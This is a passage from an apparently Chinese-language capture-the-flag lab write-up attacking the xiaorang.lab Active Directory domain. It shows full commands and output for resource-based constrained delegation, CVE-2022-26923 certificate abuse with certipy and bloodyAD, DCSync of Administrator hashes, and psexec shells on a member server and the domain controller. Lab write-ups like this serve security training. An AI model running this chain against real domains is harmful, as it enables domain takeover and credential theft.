        RestrictedKrbHost/XR-CA
        HOST/XR-CA
        RestrictedKrbHost/XR-CA.xiaorang.lab
        HOST/XR-CA.xiaorang.lab

[*] SPN：CN=krbtgt,CN=Users,DC=xiaorang,DC=lab
        kadmin/changepw
```

通过提取其中关键信息得到可以进行RBCD攻击

```shell
lixiuying 将自己添加到 ------> XR-0687
基于资源约束委派：
[*] SPN：CN=XR-0687,CN=Computers,DC=xiaorang,DC=lab
        WSMAN/XR-0687
        WSMAN/XR-0687.xiaorang.lab
        TERMSRV/XR-0687
        TERMSRV/XR-0687.xiaorang.lab
        RestrictedKrbHost/XR-0687
        HOST/XR-0687
        RestrictedKrbHost/XR-0687.xiaorang.lab
        HOST/XR-0687.xiaorang.lab
```


# RBCD

> 其实该步骤跳过也可以，打下域控再PTH该机器即可

创建机器账户，用户名为EVILCOMPUTER$，密码为cy123!@#

```shell
┌──(kali㉿kali)-[~/Desktop/impacket-impacket_0_10_0/examples]
└─$ proxychains4 -q impacket-addcomputer -computer-name 'EVILCOMPUTER$' -computer-pass 'cy123!@#' -dc-host XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 "xiaorang.lab/lixiuying:winniethepooh"
Impacket v0.10.1.dev1+20230413.195351.6328a9b7 - Copyright 2022 Fortra

[*] Successfully added machine account EVILCOMPUTER$ with password cy123!@#.
```

修改了委派权限

```shell
┌──(kali㉿kali)-[~/Desktop/impacket-impacket_0_10_0/examples]
└─$ proxychains4 -q impacket-rbcd -action write -delegate-to "XR-0687$" -delegate-from "EVILCOMPUTER$" -dc-ip 172.22.15.13 xiaorang.lab/lixiuying:winniethepooh
Impacket v0.10.1.dev1+20230413.195351.6328a9b7 - Copyright 2022 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] EVILCOMPUTER$ can now impersonate users on XR-0687$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     EVILCOMPUTER$   (S-1-5-21-3745972894-1678056601-2622918667-1147)
```

模拟了获取服务票据的过程

```shell
┌──(kali㉿kali)-[~/Desktop/impacket-impacket_0_10_0/examples]
└─$ proxychains4 -q impacket-getST xiaorang.lab/EVILCOMPUTER$:'cy123!@#' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
Impacket v0.10.1.dev1+20230413.195351.6328a9b7 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

设置`KRB5CCNAME` 为`Administrator.ccache`，从而在 Kerberos 认证过程中使用 Administrator 用户的凭证缓存

```shell
export KRB5CCNAME=Administrator.ccache 
```

PTH上线

```shell
┌──(kali㉿kali)-[~/Desktop/impacket-impacket_0_10_0/examples]
└─$ proxychains4 -q impacket-psexec 'xiaorang.lab/administrator@XR-0687.xiaorang.lab' -target-ip 172.22.15.35 -codec gbk -no-pass -k
Impacket v0.10.1.dev1+20230413.195351.6328a9b7 - Copyright 2022 Fortra

[*] Requesting shares on 172.22.15.35.....
[*] Found writable share ADMIN$
[*] Uploading file OIUlOgNg.exe
[*] Opening SVCManager on 172.22.15.35.....
[*] Creating service OLVG on 172.22.15.35.....
[*] Starting service OLVG.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.20348.1668]
(c) Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\users\Administrator\flag\flag03.txt
  __ _            __ ____
 / _| |__ _ __ _ /  \__ /
|  _| / _` / _` | () |_ \
|_| |_\__,_\__, |\__/___/
           |___/         

flag03: flag{4ab7e7b2-e92e-4edc-aa0d-2ddb3e211bbb}
```

# CVE-2022-26923

> 主机 172.22.15.18 (XR-CA) 存在 CVE-2022-26923 漏洞。

查找证书服务器，并尝试查找可以利用的证书模板：

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q certipy find -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA: Could not connect: [Errno 111] Connection refused
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP: [Errno Connection error (224.0.0.1:445)] [Errno 111] Connection refused
[!] Failed to get CA configuration for 'xiaorang-XR-CA-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : xiaorang-XR-CA-CA
    DNS Name                            : XR-CA.xiaorang.lab
    Certificate Subject                 : CN=xiaorang-XR-CA-CA, DC=xiaorang, DC=lab
    Certificate Serial Number           : 3ECFB0112E93BE9041059FA6DBB3C35A
    Certificate Validity Start          : 2023-06-03 07:19:59+00:00
    Certificate Validity End            : 2028-06-03 07:29:58+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
Certificate Templates                   : [!] Could not find any certificate templates
```

创建机器账户

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-addcomputer 'xiaorang.lab/lixiuying:winniethepooh' -computer-name 'T1sts$' -computer-pass 'Admin@123' -dc-ip 172.22.15.13
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account T1sts$ with password Admin@123.
```

设置DNSHostName

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q python3 bloodyAD.py -d xiaorang.lab -u lixiuying -p 'winniethepooh' --host 172.22.15.13 set object 'CN=T1sts,CN=Computers,DC=xiaorang,DC=lab' dNSHostName -v XR-DC01.xiaorang.lab
['XR-DC01.xiaorang.lab']
[+] CN=T1sts,CN=Computers,DC=xiaorang,DC=lab's dNSHostName has been updated
```

注：在上面两个步骤其实可以使用certipy工具一条命令搞定

```shell
┌──(root㉿kali)-[~]
└─# proxychains4 -q certipy account create -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -user 'T1sts$' -pass 'Admin@123' -dns 'XR-DC01.xiaorang.lab'
Certipy v4.5.1 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : T1sts$
    unicodePwd                          : Admin@123
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/T1sts
                                          RestrictedKrbHost/T1sts
    dnsHostName                         : XR-DC01.xiaorang.lab
[*] Successfully created account 'T1sts$' with password 'Admin@123'
```

申请证书

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q certipy req -u T1sts\$@xiaorang.lab -p 'Admin@123' -target 172.22.15.18 -ca "xiaorang-XR-CA-CA" -template Machine 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
```

使用证书请求TGT

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ openssl pkcs12 -in xr-dc01.pfx -out xr-dc01.pem -nodes
Enter Import Password:
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q python3 bloodyAD.py -d xiaorang.lab  -c ":xr-dc01.pem" -u 'T1sts$' --host 172.22.15.13 add rbcd 'XR-DC01$' 'T1sts$'
[!] No security descriptor has been returned, a new one will be created
[+] T1sts$ can now impersonate users on XR-DC01$ via S4U2Proxy
```

请求并冒充域管权限的服务票据

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q impacket-getST 'xiaorang.lab/T1sts$:Admin@123' -spn LDAP/xr-dc01.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
                                            
```

DCSync 从域控导出凭据：

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ export KRB5CCNAME=Administrator.ccache
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q impacket-secretsdump 'xiaorang.lab/administrator@XR-DC01.xiaorang.lab' -target-ip 172.22.15.13 -no-pass -k -just-dc-user Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:26b321bde63de24097cd6610547e858b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:6e0f5189ed31b54ec7e8b8a7e6b03eea065ec3d7be71a7b83e43a5a325491eab
Administrator:aes128-cts-hmac-sha1-96:adde12aef60c2dbf1fae6b50e9ba6d9d
Administrator:des-cbc-md5:abe0617045e90b2a
Administrator:dec-cbc-crc:abe0617045e90b2a
[*] Cleaning up... 
```

PTH 登录域控

```shell
┌──(kali㉿kali)-[~/Desktop/bloodyAD-main]
└─$ proxychains4 -q impacket-psexec 'xiaorang.lab/administrator@XR-DC01.xiaorang.lab' -target-ip 172.22.15.13 -codec gbk -no-pass -k
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.15.13.....
[*] Found writable share ADMIN$
[*] Uploading file KeinncUf.exe
[*] Opening SVCManager on 172.22.15.13.....
[*] Creating service kuSM on 172.22.15.13.....
[*] Starting service kuSM.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\windows\system32> type C:\Users\Administrator\flag\flag04.txt
 
 :::===== :::      :::====  :::=====  :::====  :::  ===
 :::      :::      :::  === :::       :::  === :::  ===
 ======   ===      ======== === ===== ===  === ========
 ===      ===      ===  === ===   === ===  ===      ===
 ===      ======== ===  ===  =======   ======       ===


flag04: flag{ee3d44e8-77b0-44f5-bc0f-ccc6c53269f0}
```

